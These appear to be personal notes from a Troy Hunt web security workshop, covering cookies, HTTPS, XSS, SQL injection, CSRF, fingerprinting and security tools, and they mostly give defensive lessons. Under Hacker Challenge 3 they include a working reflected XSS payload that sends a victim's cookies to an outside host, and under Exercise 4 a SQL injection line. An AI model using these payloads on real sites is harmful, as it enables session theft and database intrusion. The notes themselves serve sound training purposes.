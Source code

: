 
* Security Day with Troy Hunt


- Chome Developer Tools
  - View source
  - Inspect elements
  - Network - request and response headers
  - Cookies
    - Auth cookies needs to be cryptographically strong.

- Errors
  - Not handling quotes.
  - Changing urls.


** Hacker Challenge 1
  - short passwords allowed (cannot use a long password? 32 characters)
  - Remember me stores emails and password as non-secure cookies. Password was actually b64 encoded!
  - Session and Auth cookies are not secure.
  - XXX AuthCookie not HTTP only.
  - Can login over HTTP rather than HTTPS.
  - XXX Password was sent over email!

- Cannot load login/payment forms over HTTP (because man in the middle changes to page/form).

- HSTS narrows the window. Browser knows that requests must be over HTTPS.

- haveibeenpwned.com

- Think about cookie expiry.
  - discussion about usability v security (e.g. facebook.com vs commbank.com.au)

- Need brute force password attempt protection.

** Hacker Challenge 2. Multiple votes.
  - Repeat the POST request to the /api/vote.


** Reflected cross site scripting (XSS)

- Top 10 Risks from OWASP.

- Script injection from untrusted user data.
  - query parameters.
  - request body
  - request headers


** Hacker Challenge 3


'); window.location.href = 'http://steshaw.org/?capture=' + encodeURI(document.cookie); console.log('nothing

http://hackyourselffirst.troyhunt.com/Search?searchTerm=%27%29%3B+window.location.href+%3D+%27http%3A%2F%2Fsteshaw.org%2F%3Fcapture%3D%27+%2B+encodeURI%28document.cookie%29%3B+console.log%28%27nothing

- http://www.troyhunt.com/2011/12/free-ebook-owasp-top-10-for-net.html

- HTTP only cookies.
- Secure only cookies.
- over HTTPS

- "Defence in depth"


** Exercise 4: SQL injection (SQLi)

- inject "select cast(@@version as int)" into order by ${x}

- principle of least priviledge on the db account. (not a super user)

- Only real way to validate an email address is to send 'em an email and have 'em confirm it.

- sqlmap.org — tool to automate SQL injection.

- OWASP top 10 https://www.owasp.org/index.php/Top_10_2013-Top_10


** Mobile APIs (and IoT - Internet of Things)

- Cert pinning?


- Look at the HTTP requests for sensitive data.

** Exercise 5 - Mobile APIs

- Proxy your device
  - Inspect the traffic of your apps
  - Perform normal activities and monitor requests.


** CSRF/XSRF - Cross Site Request Forgery
  - anti forgery token


** Hacker Challenge 6


** Exercise 7 - Framework disclosure


- www.shodanhq.com

- http://www.pluralsight.com/author/troy-hunt

- Pwned! Owned


- Exercise 7 - Framework disclosure
  - "extensions" in urls e.g. .asp, .aspx, .php, .jsp, .do.
  - standard names of cookies like JSESSIONID, PHPSESSID.
  - meta "generator" tag like for Wordpress.
  - Server: response header, Apache, Jetty. + X- headers like X-AspNet-Version.
  - Cache busting techniques like hash on the end of img src urls (Rails).
  - Element ids for JSF apps usually like "j_*"
  - Cookie names and Names of hidden form elements used for anti forgery token.
    e.g. __RequestVerificationToken

- Fingerprinting.
  - Order that the response components are served.

- Firefox addon Wappleier (what tech are they using).


** Exercise 8 - Automating attacks and review

- Havij tinyurl.com/troyshavij

- Netsparker
  - http://www.troyhunt.com/2014/09/automating-web-security-reviews-with.html
  - http://sectools.org/tool/netsparker/

- robots.txt can sometimes be revealing.


- https://raygun.io/

- https://haveibeenpwned.com/ - Troy's site.

- Web application firewall
  - Barracuda  https://www.barracuda.com/products/webapplicationfirewall
  - CloudFlare https://www.cloudflare.com/waf


- Static analysis tools like Fortify.


- Penetration testing
  - HackLabs in Sydney


- http://www.pluralsight.com/courses/hack-yourself-first

- http://www.pluralsight.com/courses/owasp-top10-aspdotnet-application-security-risks

- http://www.pluralsight.com/courses/angularjs-security-fundamentals

- http://blog.pluralsight.com/author/troy-hunt

- http://hackyourselffirst.troyhunt.com/

- "Threat modelling"

- startssl.com - Free SSL certificate.

- https://letsencrypt.org/

- OWASP cheat sheets.

- http://seclists.org/fulldisclosure/

- http://krebsonsecurity.com/

- http://www.troyhunt.com/2015/03/yow-conference-talk-hack-yourself-first.html

